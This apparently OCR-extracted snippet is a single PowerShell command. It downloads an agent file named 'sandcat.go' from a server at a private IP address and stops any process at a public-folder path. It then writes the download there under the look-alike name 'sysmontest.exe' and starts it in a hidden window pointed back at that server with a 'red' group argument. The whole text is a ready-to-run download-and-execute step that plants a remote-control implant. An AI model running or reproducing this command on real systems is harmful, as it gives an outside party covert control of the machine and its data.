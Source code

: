 $server="http://10.99.156.121:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\sysmontest.exe"} | stop-process -f;rm -force "C:\Users\Public\sysmontest.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\sysmontest.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\sysmontest.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
